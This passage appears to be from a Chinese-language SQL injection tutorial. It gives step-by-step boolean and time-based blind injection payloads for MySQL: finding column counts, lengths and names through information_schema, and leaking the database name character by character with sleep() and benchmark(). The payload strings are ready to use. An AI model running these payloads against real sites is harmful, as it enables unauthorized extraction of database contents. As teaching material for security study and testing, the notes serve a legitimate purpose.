 ###### ⑤获取字段长度

```
1' and (length((select column_name from information_schema.columns where table_schema=database() and table_name='表名' limit 0,1))=m) --+		//m为字段名长度 

//获取字段个数
1' and ((select count(*) from information_schema.columns where table_schema=database() and table_name='表名')=m) --+	//m为表的个数
```

###### ⑥获取字段名

```
1' and (ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='表名' limit 0,1),n,1))=m) --+		//n为字段名的位置，m为ascii范围[65,122]
```

###### ⑦获取数据

```
select 字段 from 表
```

#### (3). 时间盲注

##### a. 相关函数

###### ①sleep()

* 用法：sleep(arg1)，arg1是休眠秒数

  ```
  select if(1=1,sleep(10),0)
  ```

###### ②benchmark()

* 用法：benchmark(arg1,arg2)，arg1是执行次数，arg2是执行的表达式

* 延迟时间**只和机器性能有关**

  ```
  select if(1=1,benchmark(5000000,md5('abc')),0)
  ```

##### b. 使用步骤

###### ①获取数据库名长度

```
1' and if((length(database()))>5,sleep(10),0) --+
```

###### ②获取数据库名称

```
1' and if(ascii(substr(database(),m,1))=m,sleep(10),0) --+		//65<=m<=122
```
